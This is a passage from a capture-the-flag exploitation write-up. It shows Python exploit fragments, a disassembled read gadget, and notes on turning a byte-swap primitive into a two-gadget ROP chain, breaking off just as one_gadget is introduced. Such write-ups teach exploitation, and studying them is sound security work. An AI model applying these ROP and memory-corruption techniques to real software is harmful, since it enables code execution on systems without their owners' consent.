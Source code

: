 ```python

woogie_boogie(xor_up, 0)

assert (GOAL_ADR & 0xff) == leaker() & 0xff, "xor magic failed"

cl()
```



### ROP

now we only need to find a GADGET and a DONOR that is within one byte of change. Luckily have exactly such a gadget in `readint+0x1f` (`0x101248`), even luckier there is a old `readint+0x57` (`0x101280`) address on stack, that we can use.

read gadget

```        assembly
        00101248 ba 10 00        MOV        EDX,0x10
                 00 00
        0010124d 48 89 c6        MOV        RSI,RAX
        00101250 bf 00 00        MOV        EDI,0x0
                 00 00
        00101255 e8 96 fe        CALL       <EXTERNAL>::read
```

> Note: There is also a gadget at `0x101250` that can be used on newer kernels (I use arch btw), basically the third parameters RDX is a ptr, therefore 48 bits, older kernel don't like read calls that can read way to much information (e.g. the REMOTE). Therefore we need to use `0x101248` instead, which only allows 0x10 Bytes (so a TWO GADGET).

so we can edit our exploit

```python
# woogie_boogie(xor_up, 0)
# assert (GOAL_ADR & 0xff) == leaker() & 0xff, "xor magic failed"

SWAP_ROP = base_diff(0x7fffffffe518, 0x7fffffffe530)
woogie_boogie(SWAP_ROP, xor_up)
sl(cyclic(0x10))
```

and by sheer luck we get a  ROP Chain starting at `aaaa`.

> Note: even if this wasn't the case we could have played around with swap and basically written 0x10 bytes anywhere.

### Two Gadget

Now that we have a read gadget that allows a two gadget rop chain we need to find candidates. Of course the first thing we do is check [one_gadget](https://github.com/david942j/one_gadget) and get this promising gadget: 

### *one_gadget*
